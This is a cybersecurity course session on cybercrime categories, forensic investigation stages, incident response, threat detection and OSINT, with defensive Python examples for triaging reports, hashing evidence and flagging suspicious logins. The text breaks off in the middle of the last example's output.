





# Session 2: Types of Cybercrimes and Investigation Tools

> [Cybersecurity and Digital Forensics](../../README.md) › [Term 1](../README.md) › [Module 5: Introduction to Cyber Security Frameworks](README.md) › **Session 2**

| ⏱ Estimated time | 📋 Prerequisites |
|---|---|
| 6 hours (three 2-hour classes: cybercrime types and tools · incident response, threat detection and OSINT · Try It Yourself lab) | Session 1 (personal data, breaches). Helpful: Module 3 Session 4 (ports and protocols) and Module 4 Session 10 (ACLs, certificates) |

| ⬅ [Previous: Session 1](session-01-gdpr.md) | [Next: Session 3](session-03-cyber-laws-and-digital-evidence.md) ➡ |
|:---|---:|

[](https://colab.research.google.com/github/Hamnakhan123/Cybersecurity-and-Digital-Forensics/blob/main/term-1/05-cyber-security-frameworks/code/session-02-cybercrimes-and-investigation-tools.ipynb) &nbsp;Run every Python example of this session in the notebook [`code/session-02-cybercrimes-and-investigation-tools.ipynb`](code/session-02-cybercrimes-and-investigation-tools.ipynb).

---

## 🎯 Learning objectives

- Define **cybercrime** and explain the difference between a computer as the **target**, the **tool** and an **evidence store**.
- Identify and describe the **major categories** of cybercrime with real-world examples.
- Describe the **investigation process** and the key **tools and technologies** used at each stage (imaging, forensic suites, memory, network, mobile, log analysis).
- Recognise the role of **incident response**, **threat detection** and **Open-Source Intelligence (OSINT)** tools, and how they fit together.
- Practise safe, lawful analysis: hashing evidence, triaging logs, matching indicators and analysing a phishing email.

> **Ethics first.** Everything in this session is about **detecting, investigating and preventing** crime. Use the tools only on data and systems you own or are formally authorised to examine. Unauthorised access is itself a crime (Session 3).

## 📖 Concepts

### 1. What makes something a cybercrime?

A **cybercrime** is any crime in which a computer, network or connected device plays a central role. Investigators sort the device's role into three kinds, because each one changes what evidence they look for:

| Role of the computer | Meaning | Example | Evidence focus |
|---|---|---|---|
| **Target** | The system itself is attacked | Ransomware, hacking a server, DDoS | Logs, malware samples, memory, network captures |
| **Tool** | The computer is used to commit a "traditional" crime | Online fraud, harassment, phishing | Messages, transactions, accounts, IP records |
| **Evidence store (incidental)** | The device just holds evidence of a crime | A drug dealer's phone contacts, a fraudster's spreadsheet | Files, chats, photos, location history |

> **Analogy – a burglary.** In a target crime the house itself is broken into. In a tool crime the burglar uses a car to escape (the car is the tool). In an incidental case, the stolen goods are found in a garage: the garage is not guilty, but it holds the evidence.

### 2. Major categories of cybercrime

| Category | How it works | Real-world example | Typical victims |
|---|---|---|---|
| **Phishing and credential theft** | Fake emails, SMS ("smishing") or calls ("vishing") trick people into giving passwords, OTPs or card data | "Your bank account is blocked, verify here" SMS campaigns | Individuals, employees |
| **Online financial fraud** | Fake shops, investment or "double your money" schemes, mobile-wallet scams | Fake online stores that disappear after taking payments | Individuals, small businesses |
| **Business Email Compromise (BEC)** | A criminal takes over or imitates an executive or supplier mailbox and redirects payments | Fake "our bank details changed" invoices | Companies, finance teams |
| **Ransomware** | Malware encrypts files and demands payment; "double extortion" also threatens to leak data | WannaCry (2017) hit around 200,000 computers in 150 countries; Colonial Pipeline (2021) halted US fuel supply for days | Hospitals, factories, councils, universities |
| **Hacking / unauthorised access** | Breaking into systems through weak passwords, unpatched software or misconfiguration | Equifax (2017): an unpatched web framework exposed data of about 147 million people | Any organisation |
| **Identity theft** | Using someone's personal details to open accounts, take loans or SIMs | SIM issued on a stolen ID copy, then used to reset bank passwords | Individuals |
| **Cyberstalking, harassment and sextortion** | Repeated threats, blackmail with private photos, doxxing | Fake profiles used to threaten students | Individuals, often young people and women |
| **Denial of service (DoS/DDoS)** | Flooding a service so legitimate users cannot reach it | Botnets of hacked cameras and routers (Mirai, 2016) | Online stores, banks, governments |
| **Insider threats and data theft** | Employees or contractors misuse their access | A departing salesperson copies the customer database | Companies |
| **Intellectual property crime** | Software piracy, stealing trade secrets or source code | Leaked source code sold online | Tech firms, media |
| **Financial-system attacks** | Attacks on payment and banking infrastructure | Bangladesh Bank (2016): fraudulent SWIFT messages stole about USD 81 million | Banks |
| **Supply-chain attacks** | Compromising a trusted vendor to reach its customers | SolarWinds (2020): a poisoned software update reached thousands of organisations | Governments, enterprises |
| **Cyber-espionage, cyberterrorism and attacks on critical infrastructure** | State or politically motivated intrusion and sabotage | Attacks on power grids (Ukraine, 2015) | Governments, utilities |
| **Online child sexual exploitation** | The most serious category, handled only by specialist units under strict legal procedures | Reported through national hotlines | Children |

Two frameworks help investigators describe **how** an attack unfolded:

- **Cyber Kill Chain** (seven phases): reconnaissance → weaponisation → delivery → exploitation → installation → command and control → actions on objectives. Break any link and the attack fails.
- **MITRE ATT&CK**: a public knowledge base of real attacker **tactics** (the "why", e.g. Initial Access, Persistence, Exfiltration) and **techniques** (the "how", e.g. T1566 Phishing). Detection rules and reports are mapped to it so everyone speaks the same language.

### 3. The investigation process

Most methods (for example NIST SP 800-86) share the same core phases:

| Phase | Goal | Key rule |
|---|---|---|
| **1. Identification** | Recognise an incident and find possible evidence sources | Think wide: devices, cloud accounts, logs, CCTV, witnesses |
| **2. Preservation** | Stop evidence from changing | Isolate, do not "just have a look", photograph the scene, use write blockers |
| **3. Collection / acquisition** | Make forensic copies | Most volatile first (memory before disk), hash everything, start chain of custody |
| **4. Examination** | Extract relevant data | Work only on copies; filter, recover deleted files, decode |
| **5. Analysis** | Answer who, what, when, where, how | Build a **timeline**, correlate sources, test hypotheses |
| **6. Presentation / reporting** | Explain findings to managers, lawyers or a court | Clear, factual, repeatable, with hashes and methods |

### 4. Tools and technologies of cybercrime investigation

| Stage / purpose | Tool category | Widely used examples | What it gives the investigator |
|---|---|---|---|
| Preservation | **Hardware write blockers** | Tableau, WiebeTech | Read-only access to a seized drive |
| Acquisition | **Disk imaging** | FTK Imager, `dd`/`dcfldd`, Guymager | Bit-for-bit images (E01, raw) with MD5/SHA hashes |
| Examination and analysis | **Forensic suites** | Autopsy / The Sleuth Kit (open source), EnCase, FTK, X-Ways, Magnet AXIOM | File-system parsing, deleted-file recovery, keyword search, web history, timelines |
| Volatile data | **Memory forensics** | Volatility 3, WinPmem, Magnet RAM Capture | Running processes, network connections, injected code, encryption keys in RAM |
| Network | **Packet capture and analysis** | Wireshark, tcpdump, Zeek, NetworkMiner | Who talked to whom, extracted files, DNS lookups |
| Mobile | **Mobile forensics** | Cellebrite UFED, Oxygen Forensic Detective, open-source ALEAPP/iLEAPP | Chats, call logs, locations, app data |
| Timeline | **Super-timelines** | Plaso (log2timeline), Timesketch | Every timestamp from every source on one axis |
| Malware | **Sandboxes and pattern matching** | CAPE/Cuckoo sandbox, VirusTotal, YARA rules | Behaviour of a suspicious file, family identification |
| Logs | **SIEM and log analytics** | Splunk, Elastic (ELK), Microsoft Sentinel, Wazuh | Search and correlate millions of events, alerts |
| Endpoints | **EDR / XDR** | Microsoft Defender for Endpoint, CrowdStrike Falcon, SentinelOne, open-source Velociraptor | Process trees, remote isolation, artefact collection across many machines |
| Detection on the wire | **IDS / IPS** | Snort, Suricata | Alerts on known malicious traffic patterns |
| Case work | **IR and threat-intel platforms** | TheHive (cases), MISP (indicator sharing), KAPE (fast triage collection) | Tracking tasks, sharing IOCs, quick collection |
| Hashing and integrity | **Hash utilities** | `sha256sum`, HashMyFiles, built into imagers | Proof that evidence has not changed |

> **Analogy – a crime-scene kit.** Write blockers are the gloves, imagers are the camera that records the scene exactly, forensic suites are the lab microscope, SIEM is the CCTV control room watching hundreds of cameras at once, and hashes are the tamper-evident evidence bags.

### 5. Incident response (IR)

**Incident response** is the organised way an organisation handles a security incident to limit damage, recover quickly and learn. The widely used **NIST SP 800-61** lifecycle has four phases (its 2025 revision maps them to the NIST Cybersecurity Framework 2.0 functions; Session 3 and Module 8 return to frameworks):

1. **Preparation** – IR plan, roles, contact list, tools, logging, backups, playbooks, practice drills.
2. **Detection and analysis** – alerts from SIEM/EDR/users; triage, scope, severity, evidence.
3. **Containment, eradication and recovery** – isolate hosts, block indicators, remove malware, reset credentials, restore from clean backups, monitor.
4. **Post-incident activity** – lessons learned, report, improve controls; feed new indicators back into detection.

Many teams use the similar six-step **PICERL** model: Preparation, Identification, Containment, Eradication, Recovery, Lessons learned.

**Who does what:** the **SOC** (Security Operations Centre) monitors 24/7; the **CSIRT/CERT** handles major incidents; legal, HR, communications and management join for breaches; external forensic firms and law enforcement may be engaged.

### 6. Threat detection

| Approach | How it detects | Strength | Weakness |
|---|---|---|---|
| **Signature-based** | Matches known patterns (hashes, byte strings, known bad IPs) | Fast, few false positives for known threats | Misses new or modified attacks |
| **Anomaly-based** | Learns "normal" and flags deviations | Can catch unknown attacks | More false positives, needs good baselines |
| **Behaviour / rule-based (TTP)** | Looks for attacker behaviour: many failed logins then success, Office spawning PowerShell | Hard for attackers to avoid | Needs tuning and context |
| **Threat intelligence** | Sweeps for indicators shared by others | Learns from others' incidents | Indicators expire quickly |
| **Threat hunting** | Humans search proactively for hidden attackers using a hypothesis | Finds what tools missed | Needs skilled staff and time |

The **Pyramid of Pain** (David Bianco) explains why behaviour-based detection matters: blocking a **hash** or an **IP** is trivial for an attacker to get around (they change it), but detecting their **tools** and **TTPs** (tactics, techniques and procedures) forces them to change how they work.

### 7. Open-Source Intelligence (OSINT)

**OSINT** is intelligence produced from **publicly available** information: websites, social media, public records, domain registrations, news, images and their metadata, code repositories, and internet-scan data.

| Use | Example tools and sources |
|---|---|
| Domains and infrastructure | WHOIS/RDAP, DNS lookups, certificate transparency logs (crt.sh), Shodan/Censys |
| People and usernames | Search engines with advanced operators, username checkers such as Sherlock, public social profiles |
| Link analysis | Maltego, SpiderFoot |
| Email and organisation footprint | theHarvester, company websites, job adverts |
| Images and files | Reverse image search, ExifTool for metadata |
| History | Internet Archive Wayback Machine |
| Threat intelligence | VirusTotal, abuse.ch, AlienVault OTX, national CERT advisories |

**OSINT rules of the road:** collect only what is public and needed for the case; do not deceive people or break platform terms; respect privacy law (Session 1); record **source URL, time and a hash of each screenshot** so findings are repeatable; corroborate with a second source; and remember that defenders use OSINT to see their own **attack surface** before criminals do.

## 🧭 Diagrams

**Cybercrime categories**



**Incident response lifecycle (NIST SP 800-61)**



**How the tools fit together in one investigation**



**Pyramid of Pain: how hard it is for an attacker to change each indicator**



## 🪜 Step-by-step: first response to a reported cybercrime

1. **Listen and record**: who reported it, when, what they saw; keep their original messages (do not forward screenshots only; export the original email with headers).
2. **Classify** the incident type and severity (Example 1).
3. **Preserve**: isolate the device from the network (do not switch it off if memory evidence matters), photograph screens, note running programs.
4. **Collect volatile data first** (memory, network connections), then disk images with a write blocker; **hash** everything (Example 2).
5. **Start the chain of custody** form for every item (Session 3).
6. **Analyse logs** for the who/when/where (Example 3) and **sweep indicators** across the organisation (Example 4).
7. **Investigate the lure** (Example 5): headers, domains, URLs; enrich with OSINT.
8. **Contain and recover**: reset credentials, block indicators, remove malware, restore.
9. **Report** internally, to regulators if personal data is affected (Session 1), and to law enforcement when a crime is involved.
10. **Lessons learned**: update detections, train users.

## 💻 Worked examples

### Example 1 – Triage incoming reports into categories

📄 **`code/session-02_crime_classifier.py`**

```python
"""Session 2 - Triage incident reports into cybercrime categories.

A cybercrime desk (police cyber unit, bank fraud team or company SOC) receives dozens
of reports a day written in plain language. This script uses a transparent keyword
scoring method to suggest a category, a target type (computer as TARGET or as TOOL),
and a priority, so a human analyst can review the queue faster.
It is deliberately simple and explainable: every decision shows the words that drove it.
All reports are fictional.
Run:  python session-02_crime_classifier.py
"""
import re

CATEGORIES = {
    # category: (keywords, computer is "target" or "tool", base priority 1-5)
    "Phishing / credential theft": (["link", "login", "password", "verify", "otp", "fake page"], "tool", 3),
    "Ransomware / malware":        (["encrypted", "ransom", "bitcoin", "files locked", "virus", "malware"], "target", 5),
    "Online financial fraud":      (["transferred", "jazzcash", "easypaisa", "card", "refund", "investment", "scheme"], "tool", 4),
    "Business email compromise":   (["invoice", "ceo", "bank details changed", "urgent payment", "supplier"], "tool", 5),
    "Identity theft":              (["cnic", "sim issued", "account opened", "my name", "impersonat"], "tool", 4),
    "Cyberstalking / harassment":  (["threat", "messages", "stalk", "harass", "blackmail", "photos"], "tool", 4),
    "Denial of service":           (["website down", "traffic flood", "ddos", "unavailable", "requests per second"], "target", 4),
    "Unauthorised access / hacking": (["hacked", "unknown login", "admin account", "accessed", "brute"], "target", 4),
    "Insider data theft":          (["employee", "usb", "copied", "resigned", "download"], "target", 4),
}

REPORTS = [
    "Received SMS saying my bank account is blocked, clicked the link and entered password and OTP on a fake page.",
    "All files on the accounts PC are encrypted and a note demands bitcoin as ransom.",
    "Our supplier emailed that their bank details changed; we paid the invoice of PKR 2.1 million to the new account.",
    "Someone opened a mobile wallet account using my CNIC and a SIM issued in my name.",
    "Our online store website is down, hosting says a traffic flood of 40,000 requests per second.",
    "An employee who resigned last week copied the customer database to a USB before leaving.",
    "A stranger keeps sending threat messages and says he will post my photos unless I pay.",
    "Lost my phone at the market.",
]


def classify(text):
    t = text.lower()
    scores = {}
    for cat, (words, _, _) in CATEGORIES.items():
        hits = [w for w in words if re.search(r"\b" + re.escape(w), t)]
        if hits:
            scores[cat] = hits
    if not scores:
        return None, [], "-", 1
    best = max(scores, key=lambda c: (len(scores[c]), CATEGORIES[c][2]))
    _, role, prio = CATEGORIES[best]
    money = re.search(r"(pkr|rs\.?)\s*[\d.,]+\s*(million|lakh)?", t)
    if money:
        prio = min(5, prio + 1)
    return best, scores[best], role, prio


def main():
    print(f"{'#':<3}{'Suggested category':<32}{'Computer as':<12}{'Prio':<6}Evidence words")
    print("-" * 92)
    queue = []
    for i, r in enumerate(REPORTS, 1):
        cat, hits, role, prio = classify(r)
        queue.append((prio, i, cat))
        print(f"{i:<3}{(cat or 'Not a cybercrime / refer'):<32}{role:<12}{prio:<6}{', '.join(hits)}")
    print("\nWork queue (highest priority first, human analyst confirms each one):")
    for prio, i, cat in sorted(queue, key=lambda x: (-x[0], x[1])):
        print(f"   P{prio}  report {i}: {cat or 'refer to general helpline'}")


if __name__ == "__main__":
    main()
```

**Output**

```text
#  Suggested category              Computer as Prio  Evidence words
--------------------------------------------------------------------------------------------
1  Phishing / credential theft     tool        3     link, password, otp, fake page
2  Ransomware / malware            target      5     encrypted, ransom, bitcoin
3  Business email compromise       tool        5     invoice, bank details changed, supplier
4  Identity theft                  tool        4     cnic, sim issued, my name
5  Denial of service               target      4     traffic flood, requests per second
6  Insider data theft              target      4     employee, usb, copied, resigned
7  Cyberstalking / harassment      tool        4     threat, messages, photos
8  Not a cybercrime / refer        -           1     

Work queue (highest priority first, human analyst confirms each one):
   P5  report 2: Ransomware / malware
   P5  report 3: Business email compromise
   P4  report 4: Identity theft
   P4  report 5: Denial of service
   P4  report 6: Insider data theft
   P4  report 7: Cyberstalking / harassment
   P3  report 1: Phishing / credential theft
   P1  report 8: refer to general helpline
```
**Observe:** every suggestion shows the **evidence words** that drove it, so an analyst can see why it was chosen and overrule it. Report 8 (a lost phone) is correctly *not* treated as a cybercrime. Reports mentioning money amounts get a priority boost.

### Example 2 – Hashing evidence and detecting tampering

📄 **`code/session-02_evidence_hashing.py`**

```python
"""Session 2 - Hash digital evidence at acquisition and verify it later.

Investigators never analyse original evidence directly. They make a copy (an "image"),
calculate a cryptographic hash of the original and of the copy, and record both.
If even one bit changes later, the hash changes completely, so the court can trust
that the evidence examined is exactly what was seized.

This script creates a small fictional "evidence folder" in a temporary directory,
hashes every file with MD5 and SHA-256 (as forensic tools such as FTK Imager report),
then simulates an accidental change and detects it. Everything is deleted at the end.
Run:  python session-02_evidence_hashing.py
"""
import hashlib
import json
import os
import shutil
import tempfile


def hash_file(path, chunk=65536):
    """Read in chunks so even multi-GB images fit in memory."""
    md5, sha = hashlib.md5(), hashlib.sha256()
    with open(path, "rb") as f:
        while block := f.read(chunk):
            md5.update(block)
            sha.update(block)
    return md5.hexdigest(), sha.hexdigest()


def manifest(folder):
    out = {}
    for name in sorted(os.listdir(folder)):
        m, s = hash_file(os.path.join(folder, name))
        out[name] = {"bytes": os.path.getsize(os.path.join(folder, name)), "md5": m, "sha256": s}
    return out


def main():
    work = tempfile.mkdtemp(prefix="evidence_")
    try:
        ev = os.path.join(work, "EXHIBIT-07")
        os.makedirs(ev)
        files = {
            "chat_export.txt": "2026-09-14 21:03 buyer: send the account details\n2026-09-14 21:05 seller: ok\n",
            "invoice_scan.pdf": "%PDF-1.4 fictional invoice PKR 85,000\n",
            "browser_history.csv": "time,url\n2026-09-14 20:58,https://shop.example.com/checkout\n",
        }
        for name, text in files.items():
            with open(os.path.join(ev, name), "w") as f:
                f.write(text)

        print("1) Acquisition: hash every file and save the manifest")
        before = manifest(ev)
        for name, h in before.items():
            print(f"   {name:<20} {h['bytes']:>4} B  MD5 {h['md5'][:12]}...  SHA-256 {h['sha256'][:16]}...")
        with open(os.path.join(work, "EXHIBIT-07.manifest.json"), "w") as f:
            json.dump(before, f, indent=1)

        print("\n2) Working copy for analysis, verified against the manifest")
        copy = os.path.join(work, "EXHIBIT-07-working-copy")
        shutil.copytree(ev, copy)
        ok = manifest(copy) == before
        print(f"   Working copy identical to original: {ok}")

        print("\n3) Somebody 'tidies' the chat export on the working copy ('ok' -> 'no')")
        p = os.path.join(copy, "chat_export.txt")
        with open(p) as f:
            text = f.read()
        with open(p, "w") as f:
            f.write(text.replace("ok", "no"))
        after = manifest(copy)
        for name in before:
            same = before[name]["sha256"] == after[name]["sha256"]
            print(f"   {name:<20} {'VERIFIED' if same else 'MISMATCH - integrity broken'}")
        print(f"\n   Old SHA-256: {before['chat_export.txt']['sha256']}")
        print(f"   New SHA-256: {after['chat_export.txt']['sha256']}")
        print("   A 2-character edit changed the whole hash (avalanche effect).")
        print("\n4) Why two algorithms? MD5 is fast but has known collisions; SHA-256 is the")
        print("   value to rely on. Many labs record both for compatibility with older tools.")
    finally:
        shutil.rmtree(work)


if __name__ == "__main__":
    main()
```

**Output**

```text
1) Acquisition: hash every file and save the manifest
   browser_history.csv    60 B  MD5 0fdad048f9e0...  SHA-256 45e7af32748eae82...
   chat_export.txt        77 B  MD5 7352bdaadc1f...  SHA-256 2b5adddb50d5731f...
   invoice_scan.pdf       38 B  MD5 c2459e5a7411...  SHA-256 856e44d98c2bac9b...

2) Working copy for analysis, verified against the manifest
   Working copy identical to original: True

3) Somebody 'tidies' the chat export on the working copy ('ok' -> 'no')
   browser_history.csv  VERIFIED
   chat_export.txt      MISMATCH - integrity broken
   invoice_scan.pdf     VERIFIED

   Old SHA-256: 2b5adddb50d5731f0d49e2c7a6feb18973765a195256d0d29f547e35b9a42240
   New SHA-256: 09e32ca7a0ef9a294023f9c3127fc8bcae153555db67d3e0a22d345d46f2ca08
   A 2-character edit changed the whole hash (avalanche effect).

4) Why two algorithms? MD5 is fast but has known collisions; SHA-256 is the
   value to rely on. Many labs record both for compatibility with older tools.
```
**Observe:** changing just two characters produced a completely different SHA-256 value. This **avalanche effect** is why a hash recorded at seizure lets a court confirm the evidence is unchanged.

### Example 3 – Threat detection rules on login logs

📄 **`code/session-02_log_triage.py`**

```python
"""Session 2 - Threat detection from authentication logs (a tiny SIEM rule engine).

Incident responders start from logs. This script parses fictional VPN/web login
events and applies three classic detection rules:
  R1 brute force      : >= 5 failed logins for one account from one IP within 10 minutes
  R2 password spraying: one IP fails against >= 4 different accounts within 10 minutes
  R3 impossible travel: the same user logs in successfully from two countries
                        faster than a plane could fly between them (> 900 km/h)
It then prints alerts and a merged timeline - the first artefact of any investigation.
IP addresses are from the documentation ranges (192.0.2.0/24, 198.51.100.0/24, 203.0.113.0/24).
Run:  python session-02_log_triage.py
"""
import math
from collections import defaultdict
from datetime import datetime, timedelta

LOG = """\
2026-10-20T08:58:10 SUCCESS user=asad ip=192.0.2.10 geo=Karachi,PK
2026-10-20T09:01:02 FAIL user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:01:20 FAIL user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:01:41 FAIL user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:02:05 FAIL user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:02:30 FAIL user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:02:58 SUCCESS user=finance ip=203.0.113.66 geo=Unknown,XX
2026-10-20T09:10:00 FAIL user=hr ip=198.51.100.23 geo=Frankfurt,DE
2026-10-20T09:10:04 FAIL user=it-admin ip=198.51.100.23 geo=Frankfurt,DE
2026-10-20T09:10:09 FAIL user=sana ip=198.51.100.23 geo=Frankfurt,DE
2026-10-20T09:10:13 FAIL user=asad ip=198.51.100.23 geo=Frankfurt,DE
2026-10-20T09:10:18 FAIL user=reception ip=198.51.100.23 geo=Frankfurt,DE
2026-10-20T09:40:00 SUCCESS user=asad ip=198.51.100.99 geo=London,GB
2026-10-20T10:15:00 FAIL user=sana ip=192.0.2.11 geo=Karachi,PK
2026-10-20T10:15:20 SUCCESS user=sana ip=192.0.2.11 geo=Karachi,PK
"""
CITY = {"Karachi": (24.86, 67.01), "Frankfurt": (50.11, 8.68), "London": (51.51, -0.13)}
WINDOW = timedelta(minutes=10)


def parse(line):
    ts, result, *kv = line.split()
    d = dict(x.split("=", 1) for x in kv)
    d["time"], d["result"] = datetime.fromisoformat(ts), result
    d["city"] = d["geo"].split(",")[0]
    return d


def km(a, b):
    """Great-circle distance (haversine)."""
    (la1, lo1), (la2, lo2) = [tuple(map(math.radians, p)) for p in (a, b)]
    h = math.sin((la2 - la1) / 2) ** 2 + math.cos(la1) * math.cos(la2) * math.sin((lo2 - lo1) / 2) ** 2
    return 2 * 6371 * math.asin(math.sqrt(h))


def detect(events):
    alerts = []
    fails = [e for e in events if e["result"] == "FAIL"]
    by_pair = defaultdict(list)
    for e in fails:
        by_pair[(e["user"], e["ip"])].append(e["time"])
    for (user, ip), times in by_pair.items():
        for i in range(len(times)):
            if len([t for t in times[i:] if t - times[i] <= WINDOW]) >= 5:
                ok = [e for e in events if e["user"] == user and e["ip"] == ip and e["result"] == "SUCCESS"]
                sev = "CRITICAL (followed by a successful login!)" if ok else "HIGH"
                alerts.append((times[i], "R1 brute force", f"{user} from {ip}", sev))
                break
    by_ip = defaultdict(list)
    for e in fails:
        by_ip[e["ip"]].append(e)
    for ip, evs in by_ip.items():
        users = {e["user"] for e in evs if e["time"] - evs[0]["time"] <= WINDOW}
        if len(users) >= 4:
            alerts.append((evs[0]["time"], "R2 password spraying", f"{ip} tried {len(users)} accounts", "HIGH"))
    last = {}
    for e in [e for e in events if e["result"] == "SUCCESS"]:
        prev = last.get(e["user"])
        if prev and prev["city"] in CITY and e["city"] in CITY and prev["city"] != e["city"]:
            dist = km(CITY[prev["city"]], CITY[e["city"]])
            hours = (e["time"] - prev["time"]).total_seconds() / 3600
            speed = dist / hours
            if speed > 900:
                alerts.append((e["time"], "R3 impossible travel",
                               f"{e['user']}: {prev['city']} -> {e['city']} {dist:,.0f} km in {hours*60:.0f} min "
                               f"= {speed:,.0f} km/h", "HIGH"))
        last[e["user"]] = e
    return sorted(alerts)


def main():
    events = [parse(l) for l in LOG.strip().splitlines()]
    print(f"Parsed {len(events)} events, {sum(e['result']=='FAIL' for e in events)} failures\n")
    print("ALERTS")
    for t, rule, what, sev in detect(events):
        print(f"  {t:%H:%M:%S}  {rule:<22} {what:<58} {sev}")
    print("\nTIMELINE for the compromised 'finance' account")
    for e in events:
        if e["user"] == "finance":
            print(f"  {e['time']:%H:%M:%S}  {e['result']:<8} {e['ip']:<15} {e['geo']}")
    print("\nNext steps for the responder: disable 'finance', reset password, enforce MFA,")
    print("block 203.0.113.66 and 198.51.100.23, check what 'finance' accessed after 09:02:58,")
    print("and confirm with Asad whether the London login was really him (VPN? travel?).")


if __name__ == "__main__":
    main()
```

**Output**

```text
Parsed 15 events, 11 failures

ALERTS
  09:01:02  R1 brute force         finance from 203.0.113.66                                  CRITICAL (followed by a successful login!)
  09:10:00  R2 password spraying   198.51.100.23 tried 5 accounts                             HIGH
  09:40:00  R3 impossible travel   asad: Karachi -> London 6,309 km in 42 min = 9,049 km/h    HIGH

TIMELINE for the compromised 'finance' account
  09:01:02  FAIL     203.0.113.66    Unknown,XX
